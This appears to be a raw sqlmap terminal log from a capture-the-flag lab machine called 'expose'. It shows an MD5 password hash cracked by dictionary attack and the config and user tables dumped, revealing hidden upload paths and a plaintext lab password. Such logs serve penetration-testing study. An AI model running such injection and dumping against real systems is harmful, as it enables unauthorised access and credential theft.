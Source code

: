 ```
[2] custom dictionary file
[3] file with list of dictionary files

[10:18:16] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] 
[10:18:20] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[10:18:20] [INFO] starting 2 processes 
[10:18:32] [INFO] cracked password 'easytohack' for hash '69c66901194a6486176e81f5945b8929'                                   
Database: expose                                                                                                              
Table: config
[2 entries]
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929 (easytohack)       |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+

[10:18:57] [INFO] table 'expose.config' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.178.122/dump/expose/config.csv'                                                                                                                       
[10:18:57] [INFO] fetching columns for table 'user' in database 'expose'
[10:18:57] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[10:18:57] [INFO] retrieved: 'id'
[10:18:57] [INFO] retrieved: 'int'
[10:18:57] [INFO] retrieved: 'email'
[10:18:57] [INFO] retrieved: 'varchar(512)'
[10:18:57] [INFO] retrieved: 'password'
[10:18:57] [INFO] retrieved: 'varchar(512)'
[10:18:57] [INFO] retrieved: 'created'
[10:18:57] [INFO] retrieved: 'timestamp'
[10:18:57] [INFO] fetching entries for table 'user' in database 'expose'
[10:18:58] [INFO] retrieved: '2023-02-21 09:05:46'
[10:18:58] [INFO] retrieved: 'hacker@root.thm'
[10:18:58] [INFO] retrieved: '1'
[10:18:58] [INFO] retrieved: 'VeryDifficultPassword!!#@#@!#!@#1231'
Database: expose
Table: user
[1 entry]
+----+-----------------+---------------------+--------------------------------------+
| id | email           | created             | password                             |
+----+-----------------+---------------------+--------------------------------------+
| 1  | hacker@root.thm | 2023-02-21 09:05:46 | VeryDifficultPassword!!#@#@!#!@#1231 |
+----+-----------------+---------------------+--------------------------------------+

[10:18:58] [INFO] table 'expose.`user`' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.178.122/dump/expose/user.csv'                                                                                                                         
[10:18:58] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.178.122'

[*] ending @ 10:18:58 /2023-09-24/


```
